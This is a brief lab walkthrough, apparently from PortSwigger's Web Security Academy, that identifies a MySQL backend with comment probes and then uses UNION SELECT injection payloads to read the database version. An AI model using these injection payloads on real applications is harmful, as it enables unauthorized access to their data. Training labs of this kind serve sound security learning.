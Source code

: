 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

This is a MySQL or Microsoft DB according to the lab info.

Try appending
- `'--` (error)
- `'-- `(error)
- `'#` (success)

The success of "#" to start the comment indicates that it is MySQL (see Comments section at https://portswigger.net/web-security/sql-injection/cheat-sheet).

There are two string columns to work with: `'UNION+SELECT+'a','a'#`

Use the second column for data, leave the first as NULL: `'UNION+SELECT+NULL,@@version#`

This returns the version: 8.0.27
